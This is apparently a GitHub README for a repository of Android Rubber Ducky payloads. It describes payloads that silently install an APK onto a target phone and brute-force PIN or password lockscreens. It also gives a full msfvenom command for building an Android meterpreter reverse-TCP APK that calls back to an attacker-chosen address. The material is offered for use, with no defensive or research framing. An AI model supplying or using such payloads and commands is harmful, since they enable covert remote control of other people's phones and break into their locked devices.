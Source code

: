 # ANDROID_BLANKET_PARTY
This repository houses all my Android Rubber Ducky payloads

//BLANKET PArty as in that iconic scene from "FUll MEtal Jacket"//
![image](https://github.com/salvat1on/ANDROID_BLANKET_PARTY/assets/27372029/4ca1e4a8-846d-4da1-b140-8399392bd945)

These payloads will install an apk to the target device that resides in the ducky storage
the [STAND-ALONE] Pin / Password lockscreen brute force payloads will also be included in 
this Repository.

You can create an APK Payload with metasploit with the following command in the terminal

msfvenom -p android/meterpreter_reverse_tcp LHOST=YOUR_ADDRESS LPORT=5555 -o WHATEVER_NAME.apk

